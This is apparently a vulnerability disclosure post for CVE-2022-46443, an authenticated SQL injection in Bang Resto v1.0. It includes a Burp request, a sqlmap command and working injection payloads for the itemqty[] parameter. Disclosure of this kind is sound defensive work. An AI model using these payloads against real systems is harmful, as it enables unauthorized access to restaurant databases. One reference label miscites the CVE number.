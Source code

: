 ```yaml
---
title: "CVE-2022-46443 - Bang Resto v1.0 Authenticated SQL Injection"
excerpt: "There is SQL Injection vulnerability at Bang Resto 1.0."
categories:
  - CVE
tags:
  - Injection
  - SQLi
toc: true
toc_label: "Table of Content"
toc_icon: "cogs"
toc_sticky: true
---
```


![Bangresto](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgiiLj1jBwLqsNd3o_wKFfAht4Aah1pmwrQmKpsK6DW1tbAjDFg2czRWucyynKu1FPGIMKHlQhy-m-N4p_9170LwGInjlnUJIjqJx_vS2qoLEz0AF-sdfkPfgRPqy1GDM1uPkz1mxJW_JdERD7d2SqJXvwhN9KIm-7HrAFBXhVLlFe6a1Ur_clCa31Aiw/s720/bangresto.png)

## Researcher
This vulnerability was discovered by [@yuyudhn](https://github.com/yuyudhn).

## Description
When using 'waiters' role, the itemqty%5B%5D parameter on Bangresto v1.0 appears to be vulnerable to SQL injection attacks.

## Details
Detail about software affected by CVE-2022-46443.

| Parameter   | Description |
| ------------| ----------- |
| Software | Bang Resto |
| Software Link | https://github.com/mesinkasir/bangresto |
| Vendor | mesinkasir |
| Vulnerable Version | v1.0 |
| Classification | SQL Injection |
| Required privilege | Low (Waiters Role) |
| Publicly disclosed | 2022-12-14 |

## Proof of Concept

Burp Requests:
```
POST /labs/bangresto/staff/insertorder.php HTTP/1.1
Host: localhost
Content-Length: 57
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="107", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/labs/bangresto/staff/order.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: [waiters cookie]
Connection: close

itemID%5B%5D=1&itemqty%5B%5D=2&sentorder=Sent+to+kitchen
```
SQLmap
```
sqlmap -r test.txt -p itemqty%5B%5D
```
Output
```
POST parameter 'itemqty[]' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 260 HTTP(s) requests:
---
Parameter: itemqty[] (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: itemID[]=1&itemqty[]=(SELECT (CASE WHEN (9140=9140) THEN 2 ELSE (SELECT 7134 UNION SELECT 3807) END))&sentorder=Sent to kitchen

    Type: inline query
    Title: Generic inline queries
    Payload: itemID[]=1&itemqty[]=(SELECT CONCAT(CONCAT(0x716a7a6b71,(CASE WHEN (1964=1964) THEN 0x31 ELSE 0x30 END)),0x7178717a71))&sentorder=Sent to kitchen

    Type: error-based
    Title: MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)
    Payload: itemID[]=1&itemqty[]=2 AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x716a7a6b71,(SELECT (ELT(9892=9892,1))),0x7178717a71,0x78))s), 8446744073709551610, 8446744073709551610)))&sentorder=Sent to kitchen

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: itemID[]=1&itemqty[]=2 AND (SELECT 1424 FROM (SELECT(SLEEP(5)))jWeg)&sentorder=Sent to kitchen
---
[10:19:14] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.53, PHP 7.4.29
back-end DBMS: MySQL >= 5.5 (MariaDB fork)
```
- [PoC](https://www.youtube.com/watch?v=Dmjk6uOU8vY)

## References
- [CVE-2022-46071 - CVE.org](https://www.cve.org/CVERecord?id=CVE-2022-46443)
- [CVE-2022-46443 - NIST NVD](https://nvd.nist.gov/vuln/detail/CVE-2022-46443)
- [CVE-2022-46443 - Tenable](https://www.tenable.com/cve/CVE-2022-46443)
